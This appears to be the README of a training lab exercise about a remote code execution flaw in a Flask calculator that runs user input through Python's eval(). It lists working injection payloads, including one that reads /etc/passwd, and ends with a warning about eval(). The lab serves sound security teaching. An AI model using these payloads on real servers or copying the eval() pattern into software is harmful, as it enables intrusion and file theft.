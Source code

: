 # Remote Code Execution via Unsafe `eval()` (Flask App)

## Description

This exercise demonstrates a **Remote Code Execution (RCE)** vulnerability caused by unsafe usage of Python's `eval()` function.

The Flask application provides a simple **calculator form** where users can input mathematical expressions.  
However, instead of safely parsing the input, it **directly evaluates user input using `eval()`**, making it possible to execute arbitrary Python code on the server.

---

## Exploitation Steps

1. Open the vulnerable calculator page.
2. Enter malicious Python code instead of a safe mathematical expression. For example:

```python
__import__('os').system('ls')
```

## Payloads

List server files:
```python
__import__('os').system('ls')
```

Read sensitive files:
```python
__import__('builtins').open('/etc/passwd').read()
```

Execute arbitrary Python code:
```python
(lambda: (exec("print('Hacked!')")))()
```

## Why This is Dangerous

- Attackers can execute any Python code on the server.
- They can access sensitive files, open reverse shells, or completely take over the machine.
- Even seemingly "harmless" inputs can escalate into full control of the server.

## Objective for Participants
- ✅ Identify that user input is being evaluated unsafely.
- ✅ Successfully inject Python code to demonstrate arbitrary command execution.

## Tip

Try common Python exploitation patterns first (e.g., using __import__, open, or os.system).
Always be cautious with user inputs — never use eval() on untrusted data!

## Run

```commandline
python main.py
```